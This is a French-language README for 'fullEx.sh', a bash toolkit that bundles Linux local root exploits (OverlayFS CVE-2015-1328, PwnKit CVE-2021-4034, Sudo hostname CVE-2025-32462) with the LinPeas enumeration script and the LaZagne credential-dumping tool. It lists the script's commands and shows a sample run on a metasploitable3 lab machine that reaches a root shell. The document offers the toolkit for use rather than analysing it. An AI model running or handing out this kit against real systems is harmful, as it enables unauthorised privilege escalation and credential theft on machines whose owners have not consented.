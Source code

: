 # <img width="1335" height="890" alt="image" src="https://github.com/user-attachments/assets/c947aebb-593b-4027-bc50-ac87663ff387" />


Les exploits root & outils dispo :

💀 Sudo Host

💀 OverlayFS

💀 PwnKit

🤖 LinPeas

👾 LaZagne

# ⚙️ Commandes

```
vagrant@metasploitable3-ub1404:~/fullEx$ ./fullEx.sh -help
                                                                                                    
 $$$$$$\            $$\ $$\ $$$$$$$$\           
$$  __$$\           $$ |$$ |$$  _____|          
$$ /  \__|$$\   $$\ $$ |$$ |$$ |      $$\   $$\ 
$$$$\     $$ |  $$ |$$ |$$ |$$$$$\    \$$\ $$  |
$$  _|    $$ |  $$ |$$ |$$ |$$  __|    \$$$$  / 
$$ |      $$ |  $$ |$$ |$$ |$$ |       $$  $$<  
$$ |      \$$$$$$  |$$ |$$ |$$$$$$$$\ $$  /\$$\ 
\__|       \______/ \__|\__|\________|\__/  \__|

               by M0rPH3U53
 
 
Usage: ./fullEx.sh COMMAND
 
Commands:
   -LinPeas       Execute LinPeas
   -LaZagne       Execute LaZagne
   -Overlays      Overlays64 - CVE-2015-1328
   -PwnKit64/32   PwnKit64/32 - CVE-2021-4034
   -SudoHost      Sudo Hostname - CVE-2025-32462   
   -check         Verifie si gcc est installer
   -perm          Applique les droit d'execution '/fullEx'
   -help          Affiche les commandes
 ```
# 💲 Exemple

```
vagrant@metasploitable3-ub1404:~/fullEx$ bash fullEx.sh -perm
vagrant@metasploitable3-ub1404:~/fullEx$ ./fullEx.sh -SudoHost
[+] Sudo Host Bypass Exploit - CVE-2025-32462
[+] Discovered by: Rich Mirch
[+] Exploit by: J3rich0123
[+] Target: Linux x86_64
[+] Starting pseudo-root shell on dev.
[+] Type 'exit' or 'quit' to leave.
[+] For a real shell, type: bash
[+] Or: vim → :!bash to break into a real TTY shell
root@dev# bash -i
root@metasploitable3-ub1404:~/fullEx# id
uid=0(root) gid=0(root) groups=0(root)
```
